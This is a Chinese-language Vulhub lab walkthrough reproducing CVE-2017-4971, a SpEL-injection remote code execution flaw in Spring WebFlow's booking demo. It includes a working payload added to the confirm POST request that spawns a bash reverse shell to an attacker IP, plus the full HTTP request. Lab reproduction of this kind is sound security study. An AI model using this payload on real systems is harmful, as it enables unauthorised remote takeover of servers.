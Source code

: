 # Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![image-20220301141732657](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011417883.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![image-20220301141904282](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011419530.png)

再点击确认“Confirm”：

![image-20220301141916160](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011419396.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的POST数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

![image-20220301143832936](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011438058.png)

成功执行，获得shell：

![image-20220301143749029](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011437112.png)

